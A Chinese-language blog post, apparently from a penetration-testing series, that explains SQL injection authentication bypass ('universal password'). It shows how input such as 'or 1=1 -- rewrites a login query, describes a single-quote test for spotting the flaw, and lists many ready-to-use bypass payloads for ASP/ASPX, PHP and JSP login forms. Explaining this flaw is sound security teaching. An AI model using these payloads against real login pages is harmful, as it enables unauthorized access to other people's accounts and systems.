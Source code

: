 ```yaml
---
layout: post
tags: SQL注入 渗透测试
title: "SQL注入（二）"
category: SQL注入
excerpt: 万能密码漏洞
---
```


## OR漏洞简述

该漏洞又称万能密码，效果是通过构造一个恒为真的语句来绕过用户名密码检测，不通过密码即可登录进去

## 漏洞原理

由于程序对用户输入没有进行过滤，我们可以通过构造恒为真的语句来控制查询。

例如在我们输入用户名为 `admin` 密码为 `123` 时，SQL查询语句为

{% highlight sql %}
SELECT * FROM admin WHERE Name='admin' and passWord='123'
{% endhighlight %}


而我们通过构造语句在用户名处输入 `'or 1=1 --` 密码为任意值如 `111`此时查询语句变为

{% highlight sql %}
SELECT * FROM admin WHERE Name=''or 1=1 --' and passWord='111'
{% endhighlight %}

此时的效果是用户名为null，而后面加入了一个恒为真的语句 `1=1` 此时用户名部分是为真的。`--`表示注释掉后面所有的内容，因此在 `--` 后面的内容都失效了，密码不会进行判断。

原本程序设定应该是当这条SQL查询语句查询到用户名密码均正确时返回真，返回结果为真时登陆进界面。此时由于构造了一个为真的语句，我们便可以绕过用户名密码进行登陆。

## 判断方法

在输入框输入单引号进行登陆，若有报错说明没有对单引号进行过滤，存在此漏洞

## 不同类型程序的万能密码

应该注意的是不同类型的数据库程序所使用的语法不同，以下内容转自[chengker](http://chengkers.lofter.com/post/14c64b_379726)的博客

### ASP ASPX万能密码

>* "or "a"="a
>* ')or('a'='a
>* or 1=1--
>* 'or 1=1--
>* a'or' 1=1--
>* "or 1=1--
>* 'or'a'='a
>* "or"="a'='a
>* 'or''='
>* 'or'='or'
>* 1 or '1'='1'=1
>* 1 or '1'='1' or 1=1
>* 'OR 1=1%00
>* "or 1=1%00
>* 'xor
>* 用户名 ' UNION Select 1,1,1 FROM admin Where ''=' （替换表名admin） 密码 1
>* ..admin' or 'a'='a 密码随便

### PHP万能密码

>* 'or 1=1/*
>* User: something
>* Pass: ' or '1'='1

### JSP 万能密码

>* 1'or'1'='1
>* admin' or 1=1/*